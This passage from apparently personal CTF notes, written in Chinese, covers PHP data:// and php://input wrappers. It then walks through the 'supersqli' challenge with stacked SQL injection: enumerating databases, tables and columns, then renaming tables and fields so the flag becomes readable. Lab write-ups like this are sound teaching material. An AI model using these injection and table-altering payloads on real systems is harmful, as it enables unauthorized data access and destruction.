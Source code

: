 ![image-20240319222724687](D:\文档\ctf\assets\image-20240319222724687.png)

##### 总结：php伪协议：data://text/plain

##### php伪协议input和data、php读取目录路径、读取目录文件、读取文件

这个是数据流；php://input是输入流，从post中输入



#### supersqli

![image-20240320154542052](D:\文档\ctf\assets\image-20240320154542052.png)

![image-20240320154551124](D:\文档\ctf\assets\image-20240320154551124.png)

可以注入，但是关键字被过滤

![image-20240320155320252](D:\文档\ctf\assets\image-20240320155320252.png)

尝试堆叠注入

查看数据库：show databases;

![image-20240320155455114](D:\文档\ctf\assets\image-20240320155455114.png)

查看表名：show tables;

![image-20240320155628327](D:\文档\ctf\assets\image-20240320155628327.png)

查看两个表的列名：

```sql
show columns from `words`;  show columns from `1919810931114514`;
```

**注意：查询时字符串需要加反引号**

![image-20240320155850484](D:\文档\ctf\assets\image-20240320155850484.png)

![image-20240320160202950](D:\文档\ctf\assets\image-20240320160202950.png)

最后一步就是查询字段内容

##### 方法一：改表名

```
alter table `words` rename to `w`;
alter table `1919810931114514` rename to `words`;
```

![image-20240320161826075](D:\文档\ctf\assets\image-20240320161826075.png)

这里是因为修改了表名之后没有words表了，不用管，继续修改flag字段名

```
alter table `words` change `flag` `id` VARCHAR(50);
```

